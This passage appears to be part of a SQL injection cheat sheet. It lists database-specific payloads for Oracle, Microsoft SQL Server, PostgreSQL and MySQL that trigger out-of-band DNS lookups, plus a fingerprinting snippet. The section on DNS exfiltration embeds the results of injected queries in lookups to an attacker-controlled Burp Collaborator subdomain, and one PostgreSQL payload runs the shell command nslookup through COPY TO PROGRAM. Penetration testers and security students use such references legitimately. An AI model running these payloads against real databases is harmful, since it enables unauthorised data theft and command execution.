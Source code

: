 The following technique works on fully patched Oracle installations, but requires elevated privileges:  
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`

Microsoft

`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`

PostgreSQL

`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`


MySQL

The following techniques work on Windows only:  
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

Microsoft

`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`

PostgreSQL

`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`

MySQL

The following technique works on Windows only:  
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`


## Determine SQL databse type

Oracle
If no errore in response, then it is an Oracle database

`||(SELECT '' FROM dual)||'`

